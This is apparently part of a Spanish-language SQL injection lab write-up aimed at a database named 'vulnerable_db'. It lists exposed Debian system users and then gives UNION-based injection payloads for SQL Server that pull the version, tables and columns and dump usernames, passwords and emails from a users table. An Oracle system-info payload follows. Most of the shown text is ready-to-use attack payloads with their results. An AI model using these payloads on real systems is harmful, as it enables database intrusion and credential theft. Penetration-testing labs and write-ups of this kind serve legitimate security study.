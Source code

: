 #### Archivos del Sistema Expuestos:
- **SO**: Debian GNU/Linux 12 (bookworm)
- **Usuarios**: root, daemon, bin, sys, mysql, postgres
- **Información crítica**: Estructura del sistema operativo

---

## 🏢 SQL SERVER ENUMERATION

### 📊 Información del Sistema
```sql
' UNION SELECT 1,@@VERSION,DB_NAME(),SYSTEM_USER,GETDATE() -- 
```

### 🏗️ Enumeración de Tablas
```sql
' UNION SELECT 1,TABLE_NAME,TABLE_SCHEMA,'sqlserver_tables',GETDATE() FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE='BASE TABLE' -- 
```

### 📋 Enumeración de Columnas
```sql
' UNION SELECT 1,COLUMN_NAME,DATA_TYPE,'users_columns',GETDATE() FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users' -- 
```

### 📄 Extracción de Datos
```sql
' UNION SELECT id,username,password,email,created_at FROM users -- 
```

### ✅ Resultados SQL Server
- **Motor**: Microsoft SQL Server 2022
- **Base de datos**: `vulnerable_db`
- **Tablas**: `users`, `products`
- **Estructura completa**: Idéntica a MySQL

---

## 🔴 ORACLE ENUMERATION

### 🎯 Consideraciones Especiales Oracle
- **Estrictez de tipos**: Requiere compatibilidad exacta en UNION SELECT
- **Función de fecha**: `SYSDATE` en lugar de `NOW()`
- **Acceso mediante sinónimos**: Las tablas pueden estar en diferentes esquemas

### 📊 Información del Sistema
```sql
' UNION SELECT 999,USER,'oracle_system','discovery',SYSDATE FROM DUAL -- 
```
